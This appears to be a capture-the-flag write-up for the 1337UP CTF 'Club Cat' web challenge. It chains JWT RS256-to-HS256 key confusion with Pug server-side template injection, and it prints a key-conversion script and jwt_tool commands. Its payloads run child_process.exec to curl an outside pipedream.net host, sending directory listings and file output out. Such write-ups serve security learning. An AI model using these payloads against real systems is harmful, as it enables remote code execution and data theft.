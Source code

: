 ## **Description**
People are always complaining that there's not enough cat pictures on the internet.. Something must be done!!
<br></br>

Reading the source code foud that JWT Rs256 keys are publicly accesable on /jwks.json route.
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/Capture.PNG">
<br></br>

So We can make a key confusion attack as descriped here
<br></br>
https://portswigger.net/web-security/jwt/algorithm-confusion

Reading more the source code found a route called /cats and there pug ssti in the username that been taken from the jwt token
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/2.PNG">
<br></br>
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs 
<br></br>
<br></br>
So After things been clear to as the attak surface will be:
1- Getting the RS256 Keys 
2- Make a key confsion attack to inject what we want in the username 
3- Pug SSti
4- get RCE and read the flag
<br></br>
<br></br>
I used a script to convert the rs256 into .pem file so i can use it with jwt_tool : 
```py
import base64
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric.rsa import RSAPublicNumbers


jwk = {
    "kty": "RSA",
    "n": "w4oPEx-448XQWH_OtSWN8L0NUDU-rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpathL1zf3_Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQzYcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnRfT5HJjSRu_JmGlYCrFSof5p_E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t8opUrLbrJYoWFeYZOY_Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ-Hdw",
    "e": "AQAB"
}


n = int.from_bytes(base64.urlsafe_b64decode(jwk["n"] + "=="), byteorder='big')
e = int.from_bytes(base64.urlsafe_b64decode(jwk["e"] + "=="), byteorder='big')


public_numbers = RSAPublicNumbers(e, n)
public_key = public_numbers.public_key()


pem = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)

# Save to a .pem file
with open("public_key.pem", "wb") as pem_file:
    pem_file.write(pem)

print("Public RSA key saved to public_key.pem")
```
<br></br>
```text
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAw4oPEx+448XQWH/OtSWN
8L0NUDU+rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpat
hL1zf3/Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQz
YcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnR
fT5HJjSRu/JmGlYCrFSof5p/E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t
8opUrLbrJYoWFeYZOY/Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ+H
dwIDAQAB
-----END PUBLIC KEY-----
```
<br></br>
<br></br>
Let's create an account and take the jwt token
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/3.PNG">
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/4.PNG">

<br></br>
let's use jwt_too
```sh
$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFzZCJ9.WtNj-PzZesPRM7CZqAXXauI3TV6DcliuJbVzFOaqWajtLk96VzBjMTxap5hT9d09xraiu2CgCoX1dEg8ACpyPWfmOmxgLdwZvnL1qjjhv3ErwakYSJsn-Fe8WGeqDu4ZeSxjwR7xFjQXSBlvG9WytuWlpNBG6jM_6tY12euNs2oUW8VMV2HJM_GOEfwOMrb8lsV5JChgE3Eea9Uqa-DSpNkBvOlgWXo1gjgmlFP6TWDvxLA24O986jwFlBibxvVOOlsYhXuqiZUI-ynSxT8ZdivLYgOG58oxtvvbFuiXYc9fnSXC97eMnx_kXVE1RrYzQD_ZPC3o4CaqFK465_RK2g -X k -pk ~/Downloads/web/app/public_key.pem -I -pc username -pv "#{7*7}"

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiN7Nyo3fSJ9.lsLiuUrEkr81Z73IyAJmF7gTJfp9WwqErjPlr9e9UvI
```
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/6.PNG">
<br></br>
It worked!, now let's see where the flag is, From the Dockerfile we can see that the flag is randomized and it's in the root directory.
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/7.PNG">
<br></br>
```sh
─$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFzZCJ9.WtNj-PzZesPRM7CZqAXXauI3TV6DcliuJbVzFOaqWajtLk96VzBjMTxap5hT9d09xraiu2CgCoX1dEg8ACpyPWfmOmxgLdwZvnL1qjjhv3ErwakYSJsn-Fe8WGeqDu4ZeSxjwR7xFjQXSBlvG9WytuWlpNBG6jM_6tY12euNs2oUW8VMV2HJM_GOEfwOMrb8lsV5JChgE3Eea9Uqa-DSpNkBvOlgWXo1gjgmlFP6TWDvxLA24O986jwFlBibxvVOOlsYhXuqiZUI-ynSxT8ZdivLYgOG58oxtvvbFuiXYc9fnSXC97eMnx_kXVE1RrYzQD_ZPC3o4CaqFK465_RK2g -X k -pk ~/Downloads/web/app/public_key.pem -I -pc username -pv "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad(\"child_process\").exec('curl https://eogce8tgujfgk5f.m.pipedream.net?=\`ls /|base64\`')}()}"


[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiN7ZnVuY3Rpb24oKXtsb2NhbExvYWQ9Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZDtzaD1sb2NhbExvYWQoXCJjaGlsZF9wcm9jZXNzXCIpLmV4ZWMoJ2N1cmwgaHR0cHM6Ly9lb2djZTh0Z3VqZmdrNWYubS5waXBlZHJlYW0ubmV0Pz1gbHMgL3xiYXNlNjRgJyl9KCl9In0.PxWfN3-n3u4IxcWorBADNw52W-NFJ491nrf5ATz9WNs 
```
and we got a callback
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/8.PNG">
<br></br>
Then we got the flag name: 
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/9.PNG">
<br></br>

And finally let's read the flag
```sh
$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFzZCJ9.WtNj-PzZesPRM7CZqAXXauI3TV6DcliuJbVzFOaqWajtLk96VzBjMTxap5hT9d09xraiu2CgCoX1dEg8ACpyPWfmOmxgLdwZvnL1qjjhv3ErwakYSJsn-Fe8WGeqDu4ZeSxjwR7xFjQXSBlvG9WytuWlpNBG6jM_6tY12euNs2oUW8VMV2HJM_GOEfwOMrb8lsV5JChgE3Eea9Uqa-DSpNkBvOlgWXo1gjgmlFP6TWDvxLA24O986jwFlBibxvVOOlsYhXuqiZUI-ynSxT8ZdivLYgOG58oxtvvbFuiXYc9fnSXC97eMnx_kXVE1RrYzQD_ZPC3o4CaqFK465_RK2g -X k -pk ~/Downloads/web/app/public_key.pem -I -pc username -pv "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad(\"child_process\").exec('curl https://eogce8tgujfgk5f.m.pipedream.net?=\`ls /flag_Gx4wVbEc1fxN9ztM.txt|base64\`')}()}"


[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiN7ZnVuY3Rpb24oKXtsb2NhbExvYWQ9Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZDtzaD1sb2NhbExvYWQoXCJjaGlsZF9wcm9jZXNzXCIpLmV4ZWMoJ2N1cmwgaHR0cHM6Ly9lb2djZTh0Z3VqZmdrNWYubS5waXBlZHJlYW0ubmV0Pz1gbHMgL2ZsYWdfR3g0d1ZiRWMxZnhOOXp0TS50eHR8YmFzZTY0YCcpfSgpfSJ9.1IMzf-EtCtP7W_oeblc7njtLt6aeSNy5DqxJgeX1KZY 
```
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/10.PNG">
<br></br>
```
INTIGRITI{h3y_y0u_c4n7_ch41n_7h053_vuln5_l1k3_7h47}
```
